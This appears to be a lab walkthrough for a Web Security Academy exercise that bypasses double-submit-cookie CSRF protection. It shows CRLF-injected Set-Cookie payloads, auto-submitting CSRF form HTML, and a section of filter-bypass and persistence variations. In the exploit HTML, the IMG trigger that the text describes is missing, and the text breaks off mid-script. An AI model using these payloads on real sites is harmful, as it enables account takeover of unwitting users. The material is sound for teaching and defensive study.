

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability using the "double submit cookie" technique
- 🎯 Understand how token-in-cookie validation can be forged
- 🍪 Discover cookie injection via search term reflection in Set-Cookie header
- 💉 Inject a fake CSRF cookie into victim's browser using CRLF injection
- 🔄 Craft CSRF attack with matching fake token in form + cookie
- 🚀 Use exploit server to deliver attack payload
- 🎪 Auto-submit form to change victim's email
- 🚨 Bypass CSRF protection by forging both sides of the "double submit"
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF where token is duplicated in cookie** is a vulnerability in the "double submit cookie" CSRF prevention pattern. Instead of validating the CSRF token server-side against a session store, the server simply checks that the `csrf` cookie value **matches** the `csrf` parameter in the request body. Because the server never checks the token against the user's actual session, an attacker who can inject an arbitrary cookie into the victim's browser can forge both sides of the validation check — making the attack succeed without ever knowing the victim's real CSRF token.

### 📊 **The Vulnerability**

**How the double submit cookie pattern is supposed to work:**

```r
Legitimate email change request:

Browser sends:
  Cookie: session=abc123xyz; csrf=TOKEN_VALUE_HERE
  Body: email=user@example.com&csrf=TOKEN_VALUE_HERE
                                    ↑
                             Must match cookie!

Server validation:
  1. Extract csrf from cookie:  TOKEN_VALUE_HERE
  2. Extract csrf from body:    TOKEN_VALUE_HERE
  3. Do they match?             YES ✓
  4. Allow request              ✓

Theory:
└── Attacker cannot read victim's cookies cross-origin
    └── Cannot know what to put in the form body
        └── Token mismatch → Request rejected! 🛡️
```

**Why it fails — the forging attack:**

```r
Attacker's insight:
└── Server NEVER checks token against session store
    └── Only checks: cookie value == body value
        └── If attacker can SET victim's csrf cookie...
            └── ...attacker controls BOTH sides! 💣

Forging both sides:
  1. Inject fake csrf cookie → csrf=fake
  2. Set body csrf parameter → csrf=fake
  3. Cookie == Body?          YES ✓ (both are "fake")
  4. Server accepts!          💥

The flaw:
└── Double submit assumes:
    "Attacker can't read cookies" ✓ (true)
    "Attacker can't SET cookies"  ❌ (false — if CRLF exists!)
```

**CRLF injection via search reflection:**

```r
Discovery:
└── Search endpoint reflects term in Set-Cookie header:

GET /?search=hello HTTP/2
         ↓
Response:
  Set-Cookie: LastSearchTerm=hello; Secure; HttpOnly

Injection:
GET /?search=hello%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2

URL decoded:
  search=hello\r\nSet-Cookie: csrf=fake; SameSite=None
         ↑
  \r\n = CRLF = new HTTP header line!
         ↓
Response becomes:
  Set-Cookie: LastSearchTerm=hello
  Set-Cookie: csrf=fake; SameSite=None
              ↑
  Attacker's injected cookie! 💣

Victim's browser now has:
  Cookie: session=VICTIM_SESSION; csrf=fake
```

**Full attack chain:**

```r
Step 1: Victim visits exploit page
         ↓
Step 2: IMG tag fires:
  src="https://lab.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None"
         ↓
Step 3: Server responds with Set-Cookie: csrf=fake
         ↓
Step 4: Victim's browser stores csrf=fake cookie
         ↓
Step 5: onerror fires → form auto-submits:
  POST /my-account/change-email
  Cookie: session=VICTIM_SESSION; csrf=fake
  Body:   email=attacker@evil.com&csrf=fake
                                      ↑
                               Matches cookie! ✓
         ↓
Step 6: Server checks: csrf cookie == csrf body?
  fake == fake → YES ✓
         ↓
Step 7: Email changed! 💥
```

**Key Insight:**

```r
Why double submit cookie is weak:

1. The fundamental assumption gap:
   └── Design assumes: "Attacker cannot set cookies"
       └── Reality: CRLF injection breaks this assumption!
           └── Header injection = cookie injection 💣

2. No session binding:
   └── Real CSRF token: tied to user session ✓
       └── Cannot be forged without knowing session value
   
   └── Double submit token: only compared to itself ❌
       └── Can be forged if attacker controls cookie!

3. Why CRLF injection enables the attack:
   └── HTTP headers separated by \r\n (CRLF)
       └── If user input injected into response headers:
           └── Attacker appends \r\n to add new header
               └── Set-Cookie is a valid header
                   └── New cookie set in victim's browser! 💣

4. The danger of stateless validation:
   └── Stateful: token stored in session, validated against DB ✓
       └── Cannot be forged (attacker doesn't know value)
   
   └── Stateless: token compared only to cookie value ❌
       └── Can be forged if both values can be set by attacker

5. SameSite=None on injected cookie:
   └── Why needed?
       └── Injected csrf cookie must be sent cross-origin
           └── Default SameSite=Lax would block cross-site POST
               └── SameSite=None allows cross-site sending
                   └── Making the attack viable! ✓

The vulnerability chain:
└── Double submit cookie pattern in use
    └── Search endpoint reflects term in Set-Cookie header
        └── CRLF characters not filtered from search term
            └── Attacker injects \r\n into search param
                └── Arbitrary Set-Cookie header injected
                    └── Fake csrf cookie set on victim
                        └── Form submitted with csrf=fake
                            └── Cookie matches body → accepted! 💣

Real-world developer thought process:
└── "Stateless CSRF protection is simpler"
    └── "No session storage needed"
        └── "Cookie == Parameter is sufficient"
            └── "Attacker can't read cookies cross-origin"
                └── "Done! Secure!" ✓
                    └── Never audited CRLF injection! ❌
                        └── Vulnerability introduced! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`

**Lab description:**

```
Lab: CSRF where token is duplicated in cookie

Vulnerability:
└── Email change functionality uses double submit cookie pattern
    └── csrf cookie value simply compared to csrf body parameter
        └── No session-bound validation
            └── Can be forged via cookie injection! 💣

Goal:
└── Use exploit server to host CSRF attack
    └── Change victim's email address
        └── By injecting fake CSRF cookie via CRLF! 🎯
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Setup Burp Suite Interception**

1. 🌐 Open Burp Suite
2. ⚙️ Ensure proxy is configured
3. 🔄 Turn **Intercept ON**

**Burp Proxy tab:**

```
┌────────────────────────────────────┐
│ Burp Suite                         │
├────────────────────────────────────┤
│ Proxy │ Intruder │ Repeater │...   │
├────────────────────────────────────┤
│                                    │
│ Intercept: [ON]  [Forward]  [Drop] │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 4 — Capture Email Change Request**

1. 🌐 Go to My Account page
2. ✏️ Enter test email: `test@example.com`
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts the request

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE; csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

email=test%40example.com&csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
```

**Analysis — the double submit pattern:**

```HTTP
Key observations:

1. Cookies:
   ├── session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
   │   └── Session authentication cookie
   │
   └── csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
       └── CSRF token stored in COOKIE! ← Key detail

2. Body parameters:
   ├── email=test%40example.com
   │
   └── csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
       └── SAME token value in REQUEST BODY! ← Key detail

3. The double submit pattern:
   └── csrf cookie value == csrf body value?
       TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
       ==
       TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
       → YES ✓ → Request accepted

Critical question:
└── Is token validated against session? 🤔
    └── Or just compared to cookie value?
        └── If only compared → Can be forged! 💣
```

---

### 🔄 **Step 5 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the intercepted request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"** to let the original request through
4. 🔄 Turn **Intercept OFF**
5. 📑 Switch to **"Repeater"** tab

---

### 🧪 **Step 6 — Confirm Double Submit Validation Flaw**

**Test: Change BOTH cookie and body to same fake value**

1. ✏️ Modify the request in Repeater:

```HTTP
BEFORE:
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE; csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA
Body: email=test2%40example.com&csrf=TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA

         ↓ Change BOTH csrf values to "fake" ↓

AFTER:
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE; csrf=fake
Body: email=test2%40example.com&csrf=fake
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated!
```

**VULNERABILITY CONFIRMED!**

```
🎯 Critical Discovery:

✅ Request with fake token accepted!
✅ Email changed successfully!
❌ Server only checks: csrf_cookie == csrf_body
❌ Never validates against session!

The flaw:
└── Server validates:
    "Does csrf cookie match csrf body parameter?"
    fake == fake → YES → Accepted! 💣

Server is NOT validating:
    "Is this the token we issued for this session?"
    → This check never happens! ❌

Attack plan:
└── If we can set victim's csrf cookie to "fake"
    └── And send form with csrf=fake
        └── Server accepts! 💥
            └── Need cookie injection vector! 🎯
```

---

### 🔎 **Step 7 — Find Cookie Injection Vector**

**Look for reflected Set-Cookie headers**

1. 🌐 Navigate to the lab's search functionality
2. ✏️ Enter a test search: `hello`
3. 👀 Check the response headers in Burp

**Search request:**

```HTTP
GET /?search=hello HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

**Search response:**

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: LastSearchTerm=hello; Secure; HttpOnly

<html>
  ...search results for "hello"...
</html>
```

**Key observation:**

```
✅ Search term is reflected directly into Set-Cookie header!
✅ LastSearchTerm=hello ← Our input is here!

Critical question:
└── Are CRLF characters (\r\n) filtered?
    └── If NOT → We can inject new headers! 💣
    └── If YES → Injection blocked 🛡️

Let's test! 🧪
```

---

### 💉 **Step 8 — Test CRLF Injection**

**Craft injection payload:**

```
Normal search:
  ?search=hello

CRLF injection payload:
  ?search=hello%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None

URL decoded:
  hello\r\nSet-Cookie: csrf=fake; SameSite=None
         ↑
  \r\n = CRLF = end of current header, start of next
  %20 = space
  %3b = semicolon
```

**Send in Burp Repeater:**

```HTTP
GET /?search=hello%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

**Expected response (injection successful):**

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: LastSearchTerm=hello
Set-Cookie: csrf=fake; SameSite=None
            ↑
    Injected cookie! 💣
```

**CRLF injection confirmed!**

```
🎯 Key findings:

✅ \r\n not filtered in search parameter
✅ We can inject arbitrary Set-Cookie headers
✅ csrf=fake cookie can be planted in victim's browser
✅ SameSite=None allows cross-origin sending

Attack is now possible:
1. Load URL with CRLF injection → sets csrf=fake in victim's browser
2. Submit form with csrf=fake in body → matches cookie
3. Server accepts → email changed! 💥
```

---

### 📝 **Step 9 — Build the CRLF Injection URL**

**Construct the cookie injection URL:**

```HTTP
Base URL:
https://0abc1234def5678.web-security-academy.net/

Search endpoint:
https://0abc1234def5678.web-security-academy.net/?search=

CRLF payload (URL encoded):
test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None

Full injection URL:
https://0abc1234def5678.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

**Payload breakdown:**

```
test                           → Normal search term (dummy content)
%0d%0a                         → \r\n (CRLF — ends current header line)
Set-Cookie:                    → New header name
%20                            → Space (required after colon)
csrf=fake                      → Cookie name=value
%3b                            → ; (semicolon separating attributes)
%20                            → Space
SameSite=None                  → Cookie attribute (allow cross-origin)

Why SameSite=None is critical:
└── Form will submit cross-origin (from exploit-server to lab domain)
    └── Default SameSite=Lax would block the csrf cookie in POST
        └── SameSite=None forces cookie to be sent cross-site ✓
```

---

### 🎨 **Step 10 — Generate Base CSRF PoC**

**Method A: Using Burp Professional**

1. 🔙 Go back to the email change request in Repeater
2. 🖱️ **Right-click** on the request
3. 📋 Select **"Engagement tools → Generate CSRF PoC"**
4. ✅ Check **"Include auto-submit script"**
5. 🔄 Click **"Regenerate"**

**Burp generates basic PoC:**

```html
<html>
  <body>
    <form action="https://0abc1234def5678.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@example.com" />
      <input type="hidden" name="csrf" value="TK8fN2jQ5rL9pY3mD6vH1cX7wS4gB8zA" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```
Issue:
└── Form submits instantly
    └── But victim doesn't have our csrf cookie yet!
        └── Need to inject cookie FIRST
            └── THEN submit form after injection! ✓

Solution needed:
└── Load cookie injection URL first
    └── Wait for browser to set cookie
        └── Then submit CSRF form! 🎯
```


**Important modifications needed:**

```
Burp includes original csrf token → We must change this!

Required changes:
1. Change csrf value to "fake"
   └── Must match injected cookie
2. Remove auto-submit <script> block
   └── Will replace with IMG-based trigger
3. Add IMG tag for cookie injection
   └── Triggers CRLF injection before form submits
4. Add onerror form submission
   └── IMG loads → sets cookie → form submits
```

---

### 🌐 **Step 11 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 12 — Create the Full Exploit HTML**

**Paste into Body field:**

```html

<form method="POST" action="https://0abc1234def5678.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="hidden" name="csrf" value="fake">
</form>

```

**Replace `0abc1234def5678` with YOUR lab ID!**

**Full exploit anatomy:**

```r
<!-- Step 1: The email change form -->
<form method="POST"
      action="https://[LAB-ID].web-security-academy.net/my-account/change-email">

    Form attributes:
    ├── method="POST" → Standard POST request
    └── action="..."  → Target endpoint

    <!-- Attacker's email -->
    <input type="hidden" name="email" value="hacker@evil.com">
    
    Email input:
    ├── type="hidden" → Invisible to user
    ├── name="email"  → Required parameter
    └── value="..."   → Our chosen email

    <!-- Fake CSRF token — matches what cookie injection will set -->
    <input type="hidden" name="csrf" value="fake">
    
    CSRF input:
    ├── type="hidden" → Invisible to user
    ├── name="csrf"   → CSRF parameter
    └── value="fake"  → MUST match injected cookie!
    
</form>

<!-- Step 2: The cookie injector + form trigger -->


IMG element:
├── src="..."           → Fires GET request to inject cookie
│   └── CRLF in search → Sets csrf=fake cookie on victim
│
└── onerror="..."       → Why onerror instead of onload?
    └── IMG src is NOT a real image → Browser fires onerror
        └── At this point, cookie is already set! ✓
            └── Form submits with cookie in place! ✓

Execution sequence:
1. Victim visits exploit page
2. IMG src fires → GET /?search=test\r\nSet-Cookie: csrf=fake
3. Lab server responds → Sets csrf=fake cookie in victim's browser
4. Browser can't render the response as image → onerror fires
5. document.forms[0].submit() → POSTs the email change form
6. Request includes:
   Cookie: session=VICTIM_SESSION; csrf=fake ← injected!
   Body:   email=hacker@evil.com&csrf=fake    ← matches!
7. Server: csrf cookie == csrf body? fake==fake → YES ✓
8. Email changed! 💥
```

---

### 💾 **Step 13 — Store and Test Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens in your browser:**

```r
Exploit page loads
         ↓
Browser encounters IMG tag
         ↓
Browser fires GET request:
  GET /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
  Cookie: session=YOUR_SESSION
         ↓
Server responds with injected Set-Cookie header:
  Set-Cookie: csrf=fake; SameSite=None
         ↓
Your browser now has:
  Cookie: session=YOUR_SESSION; csrf=fake
         ↓
Response is not an image → onerror fires
         ↓
document.forms[0].submit() executes
         ↓
Browser POSTs:
  POST /my-account/change-email
  Cookie: session=YOUR_SESSION; csrf=fake ← injected!
  Body: email=hacker@evil.com&csrf=fake   ← matches!
         ↓
Server checks: csrf cookie == csrf body?
  fake == fake → YES ✓ → Process request
         ↓
Email changed to hacker@evil.com ✓
         ↓
Redirected to My Account page
```

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: hacker@evil.com ← Changed!  │
│                                    │
└────────────────────────────────────┘

✅ Email changed via cookie injection + CSRF!
✅ Exploit works end-to-end!
💡 But now your email is taken — update before delivering!
```

---

### 🔄 **Step 14 — Update Email for Victim Delivery**

**Important:** Use a different email address!

1. 🔙 Go back to exploit server
2. ✏️ Change the email value to something unused:

```html
<form method="POST" action="https://0abc1234def5678.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@attacker.com">
    <input type="hidden" name="csrf" value="fake">
</form>

```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already changed your account's email to hacker@evil.com
    └── That address is now "taken"
        └── Victim's email change would fail (duplicate)

Solution:
└── Use a fresh unused email for victim
    ├── pwned@attacker.com
    ├── victim@owned.com
    └── Or any address not already in use

This ensures the victim's email change succeeds! ✓
```

---

### 🎯 **Step 15 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution against victim:**

```r
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session cookie for the lab
   
2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
   
3. Exploit page loads in victim's browser
         ↓
4. IMG tag fires:
   GET /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION
         ↓
5. Lab server responds with injected header:
   Set-Cookie: LastSearchTerm=test
   Set-Cookie: csrf=fake; SameSite=None
                   ↑
        Fake csrf cookie planted in victim's browser! 💣
         ↓
6. Response is not a valid image → onerror fires
         ↓
7. Browser submits form:
   POST /my-account/change-email HTTP/2
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION; csrf=fake ← injected!
   
   email=pwned@attacker.com&csrf=fake ← matches cookie!
         ↓
8. Server validates:
   ├── csrf cookie = "fake"
   ├── csrf body = "fake"
   ├── fake == fake? YES ✓
   └── Process email change! ✓
         ↓
9. Victim's email changed:
   └── FROM: carlos@...
   └── TO: pwned@attacker.com
         ↓
10. Lab validation:
    └── Checks victim's email was changed ✓
    └── Lab solved! 🎉
```

---

### ✅ **Step 16 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  CSRF vulnerability by forging      │
│  both sides of the double submit    │
│  cookie validation via CRLF         │
│  injection.                         │
│                                     │
│  Lab: CSRF where token is           │
│       duplicated in cookie          │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Navigate to My Account
         → Observe email change form
         ↓
Step 3: Setup Burp Suite
         → Intercept traffic
         ↓
Step 4: Capture POST email change request
         → POST /my-account/change-email
         → Cookie includes: csrf=TOKEN
         → Body includes: email=...&csrf=TOKEN
         → Both values are identical! ← Double submit pattern
         ↓
Step 5: Send to Repeater
         ↓
Step 6: Confirm double submit flaw
         → Change BOTH csrf cookie and csrf body to "fake"
         → Send request
         → Accepted! 💥
         → Server only compares values, not session-bound! ❌
         ↓
Step 7: Find CRLF injection vector
         → Search functionality reflects term in Set-Cookie
         → Test CRLF injection in search parameter
         ↓
Step 8: Confirm CRLF injection
         → ?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
         → Response includes injected Set-Cookie header ✓
         → Can plant arbitrary cookies in victim's browser! 💣
         ↓
Step 9: Build injection URL
         → Encode CRLF + Set-Cookie payload
         → Include SameSite=None for cross-origin sending
         ↓
Step 10: Create CSRF PoC
          → Form with POST, email, csrf=fake
          → IMG tag pointing to CRLF injection URL
          → onerror submits form after cookie is set
         ↓
Step 11: Upload to exploit server
          → Paste HTML in Body
          → Store exploit
         ↓
Step 12: Test on yourself
          → View exploit
          → Cookie injected ✓
          → Form submitted ✓
          → Email changed ✓
         ↓
Step 13: Update email for victim
          → Use different unused email
          → Store again
         ↓
Step 14: Deliver to victim
          → Click "Deliver exploit to victim"
          → Cookie injection + CSRF fires
          → Email changed! 💥
         ↓
Step 15: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **The Double Submit Cookie Pattern**

```r
How it's SUPPOSED to work:

// Server generates token when user logs in
session.csrfToken = generateSecureRandom();

// Token set in cookie (readable by JS, not HttpOnly)
Set-Cookie: csrf=RANDOM_TOKEN; Secure

// Token also embedded in form
<input type="hidden" name="csrf" value="RANDOM_TOKEN">

// Validation:
if (req.cookies.csrf !== req.body.csrf) {
    return res.status(403).send('Invalid CSRF token');
}

Theory of security:
└── Attacker cannot read victim's csrf cookie (cross-origin)
    └── Cannot know what value to put in form body
        └── Values won't match → Request rejected! 🛡️

// ❌ VULNERABLE - Values compared, not session-validated
function validateCSRF(req) {
    return req.cookies.csrf === req.body.csrf;
    //     ↑ cookie value       ↑ body value
    //       only compared to each other!
    //       never checked against session! 💣
}

What's missing:
└── Never checks:
    "Is this the token WE issued for THIS session?"
    Only checks:
    "Do these two values match?"
    
    → If attacker controls both values: Attack succeeds! 💣
```

---

### **CRLF Injection Explained**

```HTTP
HTTP header format:
  Header-Name: Header-Value\r\n
  Next-Header: Its-Value\r\n
  \r\n
  Body...

\r\n = Carriage Return + Line Feed = End of header line

CRLF injection:
└── If user input placed into response header:
    └── Unfiltered \r\n treated as new header separator
        └── Attacker appends \r\n + new header content
            └── Server writes injected header to response! 💣

Example:
Input parameter: LastSearchTerm=USER_INPUT
If USER_INPUT = hello → Header: LastSearchTerm=hello
If USER_INPUT = hello\r\nSet-Cookie: csrf=fake → Two headers:
                                                   LastSearchTerm=hello
                                                   Set-Cookie: csrf=fake ← injected!

URL encoding for injection:
├── \r = %0d (Carriage Return)
├── \n = %0a (Line Feed)
├── \r\n combined = %0d%0a
├── Space = %20
└── ; = %3b

Full payload:
?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None

Decoded:
?search=test\r\nSet-Cookie: csrf=fake; SameSite=None

Effect:
Set-Cookie: LastSearchTerm=test      ← Original (truncated at \r\n)
Set-Cookie: csrf=fake; SameSite=None ← Attacker-injected! 💣
```

---

### **Why SameSite=None is Required in the Payload**

```
Cookie SameSite values:

SameSite=Strict:
└── Cookie NEVER sent in cross-site requests
    └── Our attack would fail! ❌

SameSite=Lax (browser default):
└── Cookie sent in top-level GET navigations ✓
└── Cookie NOT sent in cross-site POST ❌
    └── Our form POST from exploit-server → lab domain
        └── Blocked by Lax! ❌

SameSite=None:
└── Cookie sent in ALL cross-site requests ✓
└── REQUIRES Secure attribute (HTTPS)
    └── Our attack POST is allowed! ✓
        └── csrf=fake included in cross-origin POST! 💣

Why we set it in the injection:
└── Injecting: csrf=fake; SameSite=None
    └── Without SameSite=None:
        └── Browser applies Lax by default
            └── Cookie blocked in cross-site POST
                └── Attack fails! ❌
    └── With SameSite=None:
        └── Cookie sent in any context
            └── Cross-site POST includes csrf=fake
                └── Attack succeeds! 💥
```

---

### **The onerror Trigger Explained**

```HTML
Why use onerror instead of onload?


Why onerror:
└── The src URL points to a search page, not an image
    └── Server returns HTML response
        └── Browser tries to interpret as image
            └── Fails! → onerror fires! ✓

Timeline:
1. Browser starts loading IMG src
2. GET request fires → cookie injection happens
3. Server returns HTML (not image data)
4. Cookie is now set in victim's browser ✓
5. Browser can't parse HTML as image → onerror
6. onerror callback runs: form.submit()
7. Form submits with injected csrf cookie

Why not onload:
└── onload fires when resource loads SUCCESSFULLY
    └── Image that fails to load = no onload
        └── onerror fires on failure ✓

Why not just use a script:
└── Could use script but IMG is more reliable
└── IMG requests happen synchronously
└── Cookie must be SET before form submits
    └── onerror guarantees cookie is set first ✓

The race condition concern:
└── Does cookie get set before form submits?
    └── YES — browser processes Set-Cookie from the IMG response
        └── BEFORE onerror fires
            └── Cookie is in place when form submits ✓
```

---

### **Comparison with Other CSRF Techniques**

```
CSRF Attack Comparison:

Lab 1 — No CSRF protection:
├── No token anywhere
├── Just craft form, auto-submit
└── Simplest attack! ✓

Lab 2 — Token validation depends on request method:
├── POST validates token
├── GET skips validation
└── Convert POST to GET, omit token

Lab 3 — Token validation depends on token being present:
├── Present + valid → accepted
├── Present + invalid → rejected
├── Absent → accepted! ← bypass
└── Just remove the csrf parameter

Lab 4 — Token duplicated in cookie (this lab):
├── Cookie value must equal body value
├── Server never checks session binding
├── Find CRLF injection to set cookie
└── Inject fake cookie, send matching body value
    └── Most complex bypass! 🎯

Complexity progression:
└── No protection → Method bypass → Missing token → Double submit
    └── Each adds complexity to the attack! 🔺
```

---

## 🚀 **Attack Variations**

### **Variation 1: Different CRLF Encoding**

**If %0d%0a is filtered, try alternatives:**

```HTTP
Standard CRLF: %0d%0a
Just LF only:  %0a (may work on some servers)
Double encoded: %250d%250a (if single decode applied)
Unicode: %u000d%u000a (old IIS behavior)

Test each:
?search=test%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
?search=test%250d%250aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

---

### **Variation 2: Combined Cookie Header**

**Inject alongside existing session cookie:**

```HTTP
Craft payload to not break existing cookies:
?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None%3b%20Path=/

Adding Path=/ ensures cookie applies to entire domain:
└── Cookie set for all paths ✓
    └── Works on any endpoint! ✓
```

---

### **Variation 3: Different Cookie Names**

**Test which cookie names the app uses:**

```HTTP
Some applications use different names:
├── csrf
├── _csrf
├── csrfToken
├── XSRF-TOKEN
├── xsrf
└── anticsrf

Identify the exact cookie name first:
└── Check the intercepted request
    └── Look for cookie that matches a form parameter
        └── That's the double submit pair! 🎯
```

---

### **Variation 4: Expiry Manipulation**

**Set far-future expiry on injected cookie:**

```HTTP
Persistent injection:
?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None%3b%20Expires=Thu,%2001%20Jan%202099%2000:00:00%20GMT

Benefits:
├── Cookie persists across sessions
├── Victim revisits site later
├── Cookie still in place
└── Persistent compromise! ⚠️
```

---

### **Variation 5: Multiple Cookie Injection**

**Inject several cookies at once:**

```HTTP
Double CRLF injection:
?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None%0d%0aSet-Cookie:%20othercookie=value

Result:
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=fake; SameSite=None
Set-Cookie: othercookie=value

Useful for:
└── Testing other cookie-based security controls
└── Injecting multiple values simultaneously
```

---

### **Variation 6: Path-Scoped Cookie Injection**

**Target a specific endpoint only:**

```HTTP
Inject cookie scoped to change-email endpoint:
?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20Path=/my-account/change-email%3b%20SameSite=None

Benefits:
└── Cookie only sent to specific path
    └── Stealthier
    └── Less likely to interfere with other requests
```

---

### **Variation 7: Form Without IMG Tag**

**Alternative trigger approach:**

```html
<!-- Alternative: Use fetch to set cookie, then submit -->
<form method="POST" action="https://LAB.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@attacker.com">
    <input type="hidden" name="csrf" value="fake">
</form>
<script>
    // First inject cookie, then submit form
